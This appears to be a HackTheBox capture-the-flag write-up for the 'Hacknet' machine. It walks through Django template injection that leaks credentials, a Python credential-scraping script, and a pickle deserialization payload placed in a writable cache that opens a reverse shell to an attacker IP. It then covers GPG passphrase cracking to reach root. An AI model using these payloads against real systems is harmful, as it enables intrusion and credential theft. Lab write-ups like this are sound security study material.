


# Hacknet - HackTheBox Writeup


## Machine Information
- **Machine Name**: Hacknet
- **Difficulty**: Medium


## Summary
Hacknet involves exploiting a Django web application with multiple vulnerabilities including information disclosure through debug output and unsafe pickle deserialization leading to remote code execution.

## Reconnaissance

### Nmap Scan
```bash
nmap -sVC hacknet.htb -T5 -onmap_result
```


### Web Application Discovery
The target runs a web application on port 80. Opening it reveals a Hacknet social media platform. Using wapplyzer, i noticed that this website is running Django in the background behind a nginx engine.


## Enumeration

### Directory Enumeration
```bash
gobuster dir -u http://hacknet.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


```bash
dirb http://hacknet.htb/
```


Hurmm not any interesting subdomains found...

### Website Exploration
Let's focus on the website again..

We first need to create a new user to explore more about the website, Let's create a default `kali` user 


Now that we logged in let's go through and explore the content of the social media platform to see any key vulnerables.


#### Summary of the website:
The application appears to be a social media platform with the following functionality:
- User registration/login
- Post creation and viewing
- Like/unlike functionality
- User profiles

## Vulnerability Discovery

### Information Disclosure - Debug Output Leak

While exploring the application , I discovered that when clicking any profile, it will the profile's website as `/profile/{id}` in the url (which some sort can be an idor vulnerability).


Now, based on my experience we can do ssti injection by changing our username into a payload, to PoC this vuln, let's try changing our name to `{{ "test"|upper }}` and see if the django engine will give us the `TEST`.


Now, let's like a post by glitch or should i say User`9`


Now, using our `sessionid` and `csrftoken` we got from the website's cookie.


We curl the likes of the User`9`, Woolaa looks like we got our payload executed.


Now, we repeat the process but now with the payload `{{ users.values }}`. In Django, this will returns a list of dictionaries containing fields from the User model.

The leaked information includes:
- User emails
- Usernames  
- Password hashes/plaintext passwords


But..... Here the catch, it will return only the informations of the users that liked the  post of the User`9`. So we need to go through all the users to get the full informations.

### Credential Extraction Script

I developed a Python script to automatically extract credentials from all posts:

```python
import requests
import re
from bs4 import BeautifulSoup

BASE_URL = "http://hacknet.htb"
COOKIES = {
    "sessionid": "09cmaozjwazplygr58xtxz8mkdpmo3ci",
    "csrftoken": "ZbbWHoXo2ZxfyDcsr0dWqR7zDIJX5m2r",
}
HEADERS = {
    "User-Agent": "Mozilla/4.0",
    "Referer": BASE_URL,
    "X-CSRFToken": COOKIES["csrftoken"],
}

def extract_creds_from_html(html):
    """Extract credentials from """
    users = []
    soup = BeautifulSoup(html, "html.parser")
    for img in soup.find_all("img"):
        title = img.get("title")
        if not title:
            continue
        
        # Look for Django QuerySet style dump
        matches = re.findall(
            r"'email': '([^']+)', 'username': '([^']+)', 'password': '([^']+)'",
            title,
        )
        for email, username, password in matches:
            users.append((email, username, password))
    return users

def main():
    session = requests.Session()
    session.cookies.update(COOKIES)
    session.headers.update(HEADERS)
    
    for post_id in range(1, 31):  # Check posts 1-30
        like_url = f"{BASE_URL}/like/{post_id}"
        likes_url = f"{BASE_URL}/likes/{post_id}"
        
        # Like the post to appear in likers
        session.get(like_url)
        
        # Fetch the likers page
        r = session.get(likes_url)
        creds = extract_creds_from_html(r.text)
        print(f"[DEBUG] Post {post_id} → Found {len(creds)} credentials")
```

Running the script got me more credentials! 


### Extracted Credentials Analysis

Running the script revealed multiple user accounts with their credentials:


## Initial Access

Using the extracted credentials of the user `mikey`, I gained access to server via SSH and obtained the user flag:


**User Flag:** `8079819cfde083bd005e4939ee971ff8`


## Privilege Escalation

### Escalation Enumeration with LinPEAS

After securing the user foothold, I transferred and executed LinPEAS to enumerate privilege escalation vectors.


From this extracted `/etc/passwd`, we know that there is one more interesting user with console `sandy`.


And from here, we found something interesting `/var/tmp/django_cache` directory.


### Cache Poisoning

Checking the `/var/tmp/django_cache`, we see the permission `drwxrwxrwx 2 sandy www-data`, this shows that the owner is user `sandy` and the group is `www-data`, therefore this mean anyone in the group can (Including us!):
- Create files inside

- Modify files inside

- Delete files inside


Checkin inside the directory remains empty..


So, from what i research, the django.cache directory will store the temporary cache from the website, therefore to prove this let's trigger the explore function by using curl.

```bash
curl -H "Cookie: sessionid=b6mll8g5j0xspqcbhqr5j37rv7iuurk; csrftoken=ZbbWHoXo2ZxfyDcsr0dWqR7zDIJX5m2r" \
http://hacknet.htb/explore >/dev/null
```


### Exploitation phase
I created a pickle payload that executes a reverse shell:

```python
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.47/4444 0>&1'"
        return (os.system, (cmd,))

payload = pickle.dumps(Exploit())

with open("revshell.djcache", "wb") as f:
    f.write(payload)

print("[+] Reverse shell payload written to revshell.djcache")
```


We then overwrite the existing cache name with our djcache, then to trigger the reverse shell we need to curl again the website


Ohh.. dont forget to use `nc` to listen to port `4444`


### Privilege Escalation to Root

When we first connect to the reverse shell with the user `sandy`, we are at `/var/www/Hacknet`, so here i did a little research and found out that by default the database of the users credentials are located at settings.py.


Using the credentials, we logged into the mysql

- username: `sandy`
- password: `h@ckn3tDBpa$$`


Inside we found the table auth_user containing the hashed password for the user admin!


Using hashcat i tried to crack the password using the wordlist `rockyou.txt`. But it fails....


Futher explorations on the `Hacknet/` directory reveals a `backups/` directory containing 3 gpg files containing 3 different version of the sql. (Maybe something interesting here...)

Using `python3` i hosted the directory on the port (8080) and using `wget` retrive the files into my machine.


In order to decrypt the backup files, I first had to obtain Sandy’s PGP private key. 

So I searched for .asc files using the command:

```bash
find / -name "*.asc" 2>/dev/null
```

 and discovered an armored PGP private key:

```bash
/home/sandy/.gnupg/private-keys-v1.d/armored_key.asc
```


creating a copy of the private key inside my machine using copy and paste, first i need to import the armored_key.asc, but it prompted for a passphrase.


To crack it, I converted the key to a hash format compatible with John:


John successfully cracked the passphrase:
`sweetheart`

With the cracked passphrase, i imported the key:

```bash
gpg --import armored_key.asc
```

The key was now usable for decrypting the backup files.


Inside /var/www/HackNet/backups/, several .sql.gpg files were stored. Using the imported key, I decrypted them:

```bash
gpg --output backup01.sql --decrypt backup01.sql.gpg
gpg --output backup02.sql --decrypt backup02.sql.gpg
gpg --output backup03.sql --decrypt backup03.sql.gpg
```

This produced plaintext SQL dump files.



### Extracting Credentials

By grepping for "root" in the SQL dumps, I discovered a conversation about the root password:


The output revealed the root's password:
`h4ck3rs4re3veRywh3re99`



BOOM!! Obtained the root flag:


**Root Flag:** `8c03651ba6625b86f2d7cba4bd48df8`

## PWNED


## References
- [Django Security Documentation](https://docs.djangoproject.com/en/stable/topics/security/)
- [Pickle Security Considerations](https://docs.python.org/3/library/pickle.html#what-can-be-pickled-and-unpickled)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---
*This writeup is for educational purposes only. Always ensure you have proper authorization before testing security vulnerabilities.*
